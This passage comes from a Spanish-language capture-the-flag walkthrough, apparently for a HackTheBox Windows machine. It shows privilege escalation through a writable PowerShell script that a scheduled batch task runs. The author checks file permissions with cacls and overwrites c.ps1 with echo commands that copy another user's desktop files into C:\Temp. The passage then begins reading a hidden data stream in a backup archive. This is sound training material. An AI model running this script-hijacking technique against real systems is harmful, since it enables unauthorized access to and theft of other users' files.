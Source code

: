 - c.ps1
- del_logs.bat

Analizando con el comando type lo que hacen estos script, vemos que el 
```bash
 del_logs.bat 
```
 llama al fichero 
```bash
 c.ps1 
```
 y lo
ejecuta con **powershell**. Aqui pensamos que hay una tarea que se ejecuta a intervalo regular de tiempo que ejecuta el fichero

```bash
 del_logs.bat 
```
. Miramos si podemos modificar los ficheros.

```bash
cacls c:\sysadmscripts\del_logs.bat
cacls c:\sysadmscripts\c.ps1
```

Modificamos el Script para copiar los ficheros del usuario **decoder.Minion**

Aqui vemos que solo podemos modificar el fichero 
```bash
 c.ps1 
```


```bash
echo "dir C:\Users\decoder.MINION\Desktop\ > C:\Temp\decoder_desktop.txt" > C:\Temp\c.ps1
echo "copy C:\Users\decoder.MINION\Desktop\user.txt > C:\Temp\decoder_user.txt" >> C:\Temp\c.ps1
echo "copy C:\Users\decoder.MINION\Desktop\* > C:\Temp\" >> C:\Temp\c.ps1
copy C:\Temp\c.ps1 C:\sysadmscripts\c.ps1
```

Esperando un poco, nos copia los ficheros en 
```bash
 c:\temp 
```
. Podemos visualizar la flag del usuario.
Tambien vemos un fichero 
```bash
 backup.zip 
```
 y si le chequeamos por **Aditionnal Data Streams** con el comando

#### Lectura de Additionnal Data Strems y crackeo de Hash {-}

```bash
Get-Item -Path C:\Temp\backup.zip -stream *
```

Vemos que tiene un stream llamado pass. Lo miramos con el comando 
```bash
 type 
```
